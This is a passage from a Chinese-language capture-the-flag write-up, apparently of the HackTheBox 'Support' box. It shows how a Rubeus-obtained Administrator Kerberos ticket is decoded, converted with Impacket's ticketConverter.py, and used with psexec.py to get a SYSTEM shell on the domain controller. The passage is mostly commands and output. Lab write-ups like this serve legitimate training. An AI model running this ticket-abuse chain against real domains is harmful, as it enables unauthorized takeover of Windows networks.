      yPEUdxwkbU2b4AedPijkt1EUdJzePuW1VwdkKXa0Kn6bDmcD5S9SiM4iyYOse6nbwpLzdmGjtaS/bddY
      o5Dwh1gHvDnfAL53wLuwv23dupWSp3NPMlFFHwqhaIV4NnbSz5vq/DQvgMPJmZ3riem9WgndRjE8RXQh
      KsQPwPfUBns7MYNCF4hbs0LkdZV2sY90C82/AiAWyNg+XNHyx2Ri0+rHxWSjgdkwgdagAwIBAKKBzgSB
      y32ByDCBxaCBwjCBvzCBvKAbMBmgAwIBEaESBBBd4jXl1oZ9GWGW1j74gLuRoQ0bC1NVUFBPUlQuSFRC
      ohowGKADAgEKoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQKUAAKURGA8yMDI2MDIwMjA2MDM0MVqmERgP
      MjAyNjAyMDIxNjAzNDFapxEYDzIwMjYwMjA5MDYwMzQxWqgNGwtTVVBQT1JULkhUQqkhMB+gAwIBAqEY
      MBYbBGNpZnMbDmRjLnN1cHBvcnQuaHRi
[+] Ticket successfully imported!
*Evil-WinRM* PS C:\Users\support\Documents> exit

```
#### Rubeus成功地弄到了票。现在，我们可以获取最后一个Base64编码的票证，并将其用于我们的以管理员身份在本地机器上获取DC上的shell。为此，复制最后一张票的值和将其粘贴到一个名为ticket.kirbi.b64的文件中。
#### 转换的工具，但用不上
https://www.browserling.com/tools/remove-all-whitespace  
#### 注意：在将值粘贴到文件之前，请确保从值中删除任何空白字符。接下来，创建一个名为ticket的新文件。使用前一张彩票的Base64解码值
```
[★]$ vi ticket.kirbi.b64
[★]$ tr -d ' \n\r\t' < ticket.kirbi3.b64  > clean.b64
[★]$ base64 -d clean.b64 > ticket.kirbi

cat ticket.kirbi //看不了滴，但不影响票据转换
```
#### 最后，我们可以将此票据转换为Impacket可以使用的格式。这可以通过Impackets TicketConverter.py实现。
https://github.com/fortra/impacket
```
[★]$ git clone https://github.com/fortra/impacket.git
[★]$ ls impacket/examples/ticketConverter.py
impacket/examples/ticketConverter.py  

[★]$ ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```
#### 要获取shell，我们可以使用Impackets的psexec.py
```
[★]$ ls impacket/examples/psexec.py
impacket/examples/psexec.py

//这个环境变量KRB5CCNAME 它用来告诉系统：“Kerberos 的票据缓存（ccache 文件）在哪里”
[★]$ KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file vTSJFenZ.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service pRZe on dc.support.htb.....
[*] Starting service pRZe.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type ..\..\Users\Administrator\Desktop\root.txt
```


